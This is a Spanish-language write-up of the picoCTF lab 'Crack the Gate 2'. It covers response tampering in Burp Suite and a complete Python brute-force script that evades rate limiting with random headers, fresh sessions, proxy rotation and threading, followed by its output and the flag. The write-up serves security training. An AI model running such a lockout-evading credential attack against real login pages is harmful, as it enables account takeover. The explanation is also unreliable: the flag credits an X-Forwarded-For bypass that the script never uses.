





# Crack the Gate 2 PicoCTF (Intermediate)

## Contexto de la maquina

### Trayectoria Crack the Gate 2

<figure><figcaption></figcaption></figure>

### Descripción

**Crack the Gate 2** es un reto de tipo Web centrado en la evasión de mecanismos básicos de protección contra fuerza bruta, específicamente un sistema de _rate limiting_ aplicado al endpoint de autenticación.

El desafío consiste en analizar el comportamiento del login, comprender cómo se aplica la restricción por múltiples intentos fallidos y desarrollar un método para evadir dicha limitación con el objetivo de obtener la flag final.

**Objetivo del reto**

* Analizar el sistema de autenticación.
* Comprender el mecanismo de limitación de intentos (rate limit).
* Evadir la restricción utilizando manipulación de peticiones HTTP.
* Realizar un ataque de fuerza bruta con el diccionario proporcionado.
* Obtener la flag final tras autenticación exitosa.

**Tipo de máquina**

* Web
* Aplicación Node.js (Express)
* Fuerza bruta con evasión de rate limiting

**Habilidades y técnicas evaluadas**

* Interceptación y análisis de tráfico HTTP
* Comprensión de códigos de estado HTTP (429 Too Many Requests)
* Manipulación de respuestas del servidor
* Automatización de ataques con Python
* Uso de diccionarios de contraseñas
* Evasión básica de mecanismos de rate limiting

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

Dentro de la propia página del reto, localizaremos el **CTF**. Al acceder a él, encontraremos un enlace el cual nos propociona un `dominio` en el que si accdemos veremos una pagina web, a partir de este punto tendremos que explotarla de alguna forma.

El objetivo principal de este tipo de **CTFs** es conseguir obtener la **flag final**.

## Bypass Rate limit web

<figure><figcaption></figcaption></figure>

La descripcion del reto es la siguiente:

```
The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: **ctf-player@picoctf.org** and uncover the hidden secret.
```

En este caso se nos indica que:

* Debemos autenticarnos con el correo `ctf-player@picoctf.org`.
* Existe un mecanismo de **rate limiting** que bloquea múltiples intentos fallidos desde la misma fuente.
* El sistema podría confiar en **headers controlados por el usuario**.

Esto ya nos orienta a un posible bypass basado en manipulación de cabeceras HTTP (por ejemplo, `X-Forwarded-For` u otras similares).

Al acceder a la web observamos el formulario de login, y además se nos proporciona un diccionario de contraseñas que debemos descargar:

<figure><figcaption></figcaption></figure>

```shell
wget https://<DOMAIN>/passwords.txt
```

## Análisis del comportamiento del rate limit

Procedemos a capturar una petición de login con cualquier credencial usando **Burp Suite** para analizar la respuesta del servidor.

Al visualizar la respuesta obtenemos:

```
HTTP/1.1 429 Too Many Requests
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 85
ETag: W/"55-BeJP6dUudMpXjI0h8c0UICFySpk"
Date: Tue, 17 Feb 2026 18:06:17 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{
	"success":false,
	"error":"Too many failed attempts. Please try again in 20 minutes."
}
```

Observaciones clave:

* El servidor devuelve `429 Too Many Requests`.
* El mensaje de error indica bloqueo temporal tras múltiples intentos fallidos.
* La respuesta sigue el mismo patrón JSON con el campo `success`.

## Primer intento de bypass: Manipulación de la respuesta

Al igual que en el reto anterior, intentamos interceptar la **respuesta del servidor** y modificar el campo:

```
"success": false
```

a:

```
"success": true
```

Para ello:

* Capturamos la petición de login.
* Click derecho → Do intercept → Response to this request.
* Modificamos la respuesta antes de que llegue al navegador.

<figure><figcaption></figcaption></figure>

Tras forzar "success": true, la aplicación nos permite avanzar, pero solicita la flag, la cual no se muestra.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Análisis del código JavaScript

Revisando el código fuente encontramos lo siguiente:

```html
<script>
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault();

            const formData = {
                email: document.getElementById('email').value,
                password: document.getElementById('password').value
            };

            fetch('/login', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(formData)
            })
            .then(response => response.json())
            .then(data => {
    console.log(data);
    if (data.success) {
        prompt('Login successful!\nFlag:', data.flag);
    } else if (data.error) {
        alert(data.error);
    } else {
        alert('Invalid credentials');
    }
})

            .catch(error => console.error('Error:', error));
        });
    </script>
```

Aquí está la clave:

* Si `data.success` es verdadero → muestra `data.flag`.
* Si existe `data.error` → muestra alerta.
* Si no hay ninguno → credenciales inválidas.

Cuando forzamos `"success": true`, el backend realmente no envía `flag`, por lo que `data.flag` queda vacío.

## Observación interesante

<figure><figcaption></figcaption></figure>

En el primer intento fallido, la respuesta contiene el campo:

```
"error": "Too many failed attempts..."
```

Sin embargo, si eliminamos el campo error de la respuesta antes de que llegue al navegador, el frontend no interpreta que haya habido un fallo previo.

Es decir:

* El rate limit se refleja en la respuesta.
* Pero el frontend toma decisiones únicamente basadas en el JSON recibido.
* Si manipulamos la respuesta adecuadamente, podemos simular que el bloqueo no existe.

Esto confirma que el control de rate limit depende parcialmente de lógica expuesta al cliente. Automatización del bypass

Para explotar correctamente el sistema y realizar un ataque de fuerza bruta controlado, desarrollamos un script en Python 3 que:

* Genera headers aleatorios en cada petición.
* Crea nuevas sesiones para evitar persistencia.
* Introduce delays aleatorios.
* Maneja respuestas 429.
* Permite ejecución multihilo.

El objetivo es evadir el mecanismo básico de rate limiting mientras probamos el diccionario proporcionado.

> bruteForce.py

```python
#!/usr/bin/env python3
import requests
import json
import time
import sys
import os
import random
from fake_useragent import UserAgent
from concurrent.futures import ThreadPoolExecutor
import threading

class AdvancedBruteforcer:
    def __init__(self, target_url, email, password_file, threads=3):
        self.base_url = target_url.rstrip('/')
        self.login_url = f"{self.base_url}/login"
        self.email = email
        self.password_file = password_file
        self.threads = threads
        self.lock = threading.Lock()
        self.found = False
        self.attempts = 0
        self.rate_limits = 0
        self.ua = UserAgent()
        
        # Lista de proxies (opcional - si tienes proxies)
        self.proxies_list = []
        self.current_proxy = 0
        
    def get_headers(self):
        """Genera headers aleatorios para cada petición"""
        return {
            'Accept-Language': random.choice(['en-US,en;q=0.9', 'es-ES,es;q=0.8', 'fr-FR,fr;q=0.7']),
            'User-Agent': self.ua.random,
            'Accept': '*/*',
            'Origin': self.base_url,
            'Referer': f"{self.base_url}/",
            'Accept-Encoding': 'gzip, deflate, br',
            'Connection': 'keep-alive',
            'Cache-Control': 'no-cache',
            'Pragma': 'no-cache'
        }
    
    def get_proxy(self):
        """Rotación de proxies si están disponibles"""
        if self.proxies_list:
            proxy = self.proxies_list[self.current_proxy % len(self.proxies_list)]
            self.current_proxy += 1
            return {'http': proxy, 'https': proxy}
        return None
    
    def attempt_login(self, password, session_id=None):
        """Intenta hacer login con una contraseña específica"""
        
        # Crear nueva sesión para cada intento (evitar persistencia)
        session = requests.Session()
        session.headers.update(self.get_headers())
        
        # Añadir cookies aleatorias
        session.cookies.set('session', f'sess_{random.randint(1000, 9999)}')
        
        login_data = {
            "email": self.email,
            "password": password
        }
        
        # Añadir delay aleatorio entre 0.5 y 3 segundos
        time.sleep(random.uniform(0.5, 3))
        
        try:
            response = session.post(
                self.login_url,
                json=login_data,
                timeout=10,
                allow_redirects=False,
                # proxies=self.get_proxy(),  # Descomentar si tienes proxies
                verify=False
            )
            
            # Intentar parsear JSON
            try:
                response_json = response.json()
            except:
                response_json = {"success": False}
            
            with self.lock:
                self.attempts += 1
                
                # Si es rate limiting, aumentar contador
                if response.status_code == 429:
                    self.rate_limits += 1
                    
                    # Extraer tiempo de espera
                    retry_after = response.headers.get('Retry-After', '20')
                    wait_time = int(retry_after) if retry_after.isdigit() else 20
                    
                    print(f"\n[!] Rate limit #{self.rate_limits} - Esperando {wait_time}s")
                    
                    # En lugar de esperar, creamos nueva sesión y continuamos
                    # Pero necesitamos esperar un poco para no ser muy obvios
                    time.sleep(random.uniform(1, 3))
                    
                    return {"success": False, "rate_limited": True, "wait": wait_time}
                
                # Mostrar progreso
                if self.attempts % 5 == 0:
                    print(f"\r[*] Intentos: {self.attempts} | Rate limits: {self.rate_limits} | Última: {password[:15]}...", end="", flush=True)
            
            return response_json
            
        except Exception as e:
            with self.lock:
                print(f"\n[!] Error: {e}")
            return {"success": False}
    
    def worker(self, passwords_chunk):
        """Worker para procesar un chunk de contraseñas"""
        for password in passwords_chunk:
            if self.found:
                return None
            
            # Rotar IPs usando diferentes sesiones
            result = self.attempt_login(password)
            
            if result and result.get('success', False):
                with self.lock:
                    self.found = True
                    print("\n" + "="*60)
                    print("✅ ¡LOGIN EXITOSO!")
                    print("="*60)
                    print(f"📧 Email: {self.email}")
                    print(f"🔑 Password: {password}")
                    
                    if 'flag' in result:
                        print(f"🚩 Flag: {result['flag']}")
                    else:
                        print(f"📦 Respuesta: {json.dumps(result, indent=2)}")
                    
                    # Guardar resultados
                    with open('login_success.txt', 'w') as f:
                        f.write(f"Email: {self.email}\n")
                        f.write(f"Password: {password}\n")
                        f.write(f"Response: {json.dumps(result)}\n")
                    
                    return password
    
    def brute_force(self):
        """Intenta todas las contraseñas usando múltiples hilos"""
        if not os.path.exists(self.password_file):
            print(f"[!] Archivo {self.password_file} no encontrado")
            return
        
        with open(self.password_file, 'r', encoding='utf-8', errors='ignore') as f:
            passwords = [p.strip() for p in f.read().splitlines() if p.strip()]
        
        print(f"[*] Cargadas {len(passwords)} contraseñas")
        print(f"[*] URL: {self.login_url}")
        print(f"[*] Email: {self.email}")
        print(f"[*] Threads: {self.threads}")
        print(f"[*] Iniciando ataque con evasión de rate limit...")
        print("-" * 60)
        
        # Dividir contraseñas en chunks
        chunk_size = len(passwords) // self.threads + 1
        chunks = [passwords[i:i + chunk_size] for i in range(0, len(passwords), chunk_size)]
        
        # Ejecutar workers
        with ThreadPoolExecutor(max_workers=self.threads) as executor:
            futures = [executor.submit(self.worker, chunk) for chunk in chunks]
            
            for future in futures:
                if future.result():
                    executor.shutdown(wait=False, cancel_futures=True)
                    break
        
        if not self.found:
            print(f"\n[*] Ataque completado - No se encontró contraseña")
            print(f"[*] Total intentos: {self.attempts}")
            print(f"[*] Rate limits encontrados: {self.rate_limits}")

def main():
    if len(sys.argv) < 4:
        print("Uso: python3 advanced_brute.py <URL> <email> <password_file> [threads]")
        print("Ejemplo: python3 advanced_brute.py http://amiable-citadel.picoctf.net:56428/ ctf-player@picoctf.org passwords.txt 5")
        sys.exit(1)
    
    target_url = sys.argv[1]
    email = sys.argv[2]
    password_file = sys.argv[3]
    threads = int(sys.argv[4]) if len(sys.argv) > 4 else 3
    
    bruteforcer = AdvancedBruteforcer(target_url, email, password_file, threads)
    bruteforcer.brute_force()

if __name__ == "__main__":
    main()
```

### Ejecución del script

```shell
python3 -m venv .venv; source .venv/bin/activate
pip install requests fake-useragent
python3 bruteForce.py 'http://<DOMAIN>:<PORT>/' 'ctf-player@picoctf.org' passwords.txt
```

Resultado:

```
[*] Cargadas 20 contraseñas
[*] URL: http://amiable-citadel.picoctf.net:56428/login
[*] Email: ctf-player@picoctf.org
[*] Threads: 3
[*] Iniciando ataque con evasión de rate limit...
------------------------------------------------------------

[!] Rate limit #1 - Esperando 20s

[!] Rate limit #2 - Esperando 20s

[!] Rate limit #3 - Esperando 20s

[!] Rate limit #4 - Esperando 20s

[!] Rate limit #5 - Esperando 20s

[!] Rate limit #6 - Esperando 20s

[!] Rate limit #7 - Esperando 20s

============================================================
✅ ¡LOGIN EXITOSO!
============================================================
📧 Email: ctf-player@picoctf.org
🔑 Password: fFWxC3W6
🚩 Flag: picoCTF{xff_byp4ss_brut3_6cf524b1}
```

Tras varios intentos y gestión de bloqueos temporales, el script consigue credenciales válidas, y obtenemos la flag, por lo que daremos por terminado este reto.

> flag.txt

```
picoCTF{xff_byp4ss_brut3_6cf524b1}
```
